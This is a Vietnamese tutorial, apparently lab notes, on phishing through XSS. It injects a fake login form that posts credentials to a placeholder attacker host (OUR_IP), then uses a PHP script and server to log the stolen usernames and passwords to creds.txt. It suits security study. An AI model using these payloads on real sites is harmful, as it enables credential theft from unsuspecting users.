 ### **Phishing qua XSS - Đơn Giản và Dễ Hiểu**

Phishing qua XSS là khi kẻ tấn công tiêm mã vào trang web để lừa người dùng cung cấp thông tin cá nhân, chẳng hạn như tên đăng nhập và mật khẩu. Kẻ tấn công có thể tạo ra một form đăng nhập giả mạo, khiến nạn nhân nhập thông tin và gửi nó đến máy chủ của kẻ tấn công.

### **Bước 1: Khám Phá Lỗ Hổng XSS**

Trước tiên, chúng ta cần tìm ra lỗ hổng XSS trên trang web của nạn nhân. Trong ví dụ này, chúng ta có một công cụ xem ảnh trực tuyến. Chúng ta có thể thử tiêm mã JavaScript vào trường URL.

Khi thử tiêm mã:

```html
<script>alert(window.origin)</script>
```

Tuy nhiên, mã không thực thi. Vì vậy, chúng ta phải tìm cách tiêm một payload XSS hoạt động.

### **Bước 2: Tạo Form Đăng Nhập Giả Mạo**

Sau khi tìm ra payload XSS hiệu quả, ta có thể tiêm mã HTML vào trang để tạo một form đăng nhập giả mạo. Dưới đây là mã HTML của form đăng nhập:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Thay `OUR_IP` bằng địa chỉ IP của máy chủ bạn, nơi bạn sẽ lắng nghe thông tin đăng nhập từ nạn nhân.

### **Bước 3: Loại Bỏ Form URL Gốc**

Để làm cho form giả mạo trông thật hơn, chúng ta phải xóa form nhập URL gốc. Chúng ta sẽ sử dụng JavaScript để loại bỏ phần tử này.

Dưới đây là mã JavaScript để xóa form URL và tiêm form đăng nhập giả mạo:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
document.getElementById('urlform').remove();
```

Khi nạn nhân truy cập trang web, form đăng nhập giả mạo sẽ hiển thị thay vì trường nhập URL.

### **Bước 4: Ghi Nhận Thông Tin Đăng Nhập**

Khi nạn nhân điền thông tin vào form đăng nhập giả mạo, chúng ta cần lấy thông tin này. Để làm điều này, chúng ta tạo một máy chủ PHP để lắng nghe và ghi lại thông tin.

**Script PHP để ghi thông tin**:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

### **Bước 5: Lắng Nghe Thông Tin Đăng Nhập**

Bây giờ, chúng ta cần lắng nghe các kết nối đến từ form đăng nhập giả mạo. Mở terminal và chạy một máy chủ PHP:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php
sudo php -S 0.0.0.0:80
```

Máy chủ PHP sẽ ghi lại thông tin đăng nhập và chuyển người dùng trở lại trang gốc.

### **Kết Quả**

Khi nạn nhân nhập thông tin đăng nhập vào form giả mạo và nhấn "Login", chúng ta sẽ nhận được thông tin qua file `creds.txt`.

---

### **Tóm Tắt**

1. **Tìm XSS**: Tiêm mã JavaScript vào trang web để xác định lỗ hổng.
2. **Tạo Form Đăng Nhập**: Tiêm form đăng nhập giả mạo vào trang web.
3. **Loại Bỏ Form URL**: Sử dụng JavaScript để loại bỏ form URL gốc.
4. **Ghi Nhận Thông Tin Đăng Nhập**: Dùng PHP để ghi lại thông tin đăng nhập.
5. **Lắng Nghe Thông Tin**: Chạy một máy chủ PHP để lắng nghe và ghi nhận thông tin đăng nhập.

---

Với cách tiếp cận đơn giản này, bạn có thể hiểu rõ hơn về cách kẻ tấn công thực hiện phishing qua XSS và cách thông tin đăng nhập có thể bị đánh cắp.
